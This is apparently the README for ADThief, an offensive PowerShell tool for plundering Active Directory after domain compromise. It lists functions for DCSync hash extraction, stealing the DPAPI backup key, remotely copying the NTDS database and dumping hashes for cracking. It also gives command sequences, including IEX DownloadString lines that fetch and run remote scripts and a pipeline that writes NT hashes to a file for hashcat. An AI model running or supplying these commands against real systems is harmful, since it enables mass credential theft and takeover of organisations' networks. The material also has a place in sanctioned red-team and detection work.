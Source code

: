 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory domain controller, including password hashes
Get-DpapiBackupKey              -   extracts the DPAPI backup key from Active Directory domain controller
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Requirements

The functions `Invoke-DCSync`, `Get-DpapiBackupKey` and `Get-ADDatabase` require a privileged access to Active Directory, typically domain admin rights.
The functions `Dump-ADDatabase` and `Mount-ADDatabase` require admin rights on the local computer.

The functions `Invoke-DCSync`, `Get-DpapiBackupKey` and `Dump-ADDatabase` must be launched on a computer with DSInternals PowerShell module installed. The output of these functions can be formatted using custom views provided by the DSInternals module to support different password cracking tools. The Utils.ps1 file contains a function `Add-DSAccountCustomViews` to add optional views 'SecretsDump' and 'SecretsDumpHistory'.

```
PS C:\> Install-Module DSInternals -Scope CurrentUser
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/Utils.ps1')
PS C:\> Add-DSAccountCustomViews
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Invoke-DCSync -Server DC.ADATUM.CORP -Credential ADATUM\Administrator | Format-Custom -View SecretsDump
```

The function `Mount-ADDatabase` must be launched on a computer with AD LDS installed. Please make sure to back up the NTDS.DIT file before using the option 'AllowUpgrade'. 

```
PS C:\> Enable-WindowsOptionalFeature -FeatureName "DirectoryServices-ADAM-Client" -Online
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Get-ADDatabase -Server DC.ADATUM.CORP -Credential ADATUM\Administrator
PS C:\> Dump-ADDatabase | Format-Custom -View HashcatNT | Out-File -Encoding ascii ADATUM.hashes
PS C:\> Mount-ADDatabase -AllowUpgrade -LdapPort 1389
PS C:\> Invoke-LdapSearch -Server localhost:1389 -LdapFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=65536)(!userAccountControl:1.2.840.113556.1.4.803:=2))" -Properties * | Select sAMAccountName,servicePrincipalName
PS C:\> Umount-ADDatabase
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
